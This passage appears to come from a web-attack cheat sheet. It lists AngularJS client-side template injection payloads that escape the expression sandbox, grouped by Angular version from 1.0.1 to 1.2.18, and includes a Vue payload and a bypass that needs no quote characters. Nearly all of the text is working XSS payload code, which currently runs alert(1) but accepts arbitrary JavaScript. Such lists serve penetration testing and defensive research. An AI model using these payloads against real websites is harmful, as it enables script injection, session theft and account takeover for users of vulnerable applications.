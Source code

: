   
---
AngularJS 1.2.6 - 1.2.18

```javascript

{{(_=''.sub).call.call({}[$='constructor'].getOwnPropertyDescriptor(_.__proto__,$).value,0,'alert(1)')()}}

```

  
---
AngularJS 1.2.2 - 1.2.5

```javascript

{{'a'[{toString:[].join,length:1,0:'__proto__'}].charAt=''.valueOf;$eval("x='"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+"'");}}

```

  
---
AngularJS 1.2.0 - 1.2.1

```javascript

{{a='constructor';b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'alert(1)')()}}

```

  
---
AngularJS 1.0.1 - 1.1.5 and Vue JS

```javascript

{{constructor.constructor('alert(1)')()}}

```

  

### Advanced Bypassing XSS

AngularJS (without `'` single and `"` double quotes) by [@Viren](https://twitter.com/VirenPawar_)

```javascript

{{x=valueOf.name.constructor.fromCharCode;constructor.constructor(x(97,108,101,114,116,40,49,41))()}}

```

  
---
AngularJS (without `'` single and `"` double quotes and `constructor` string)
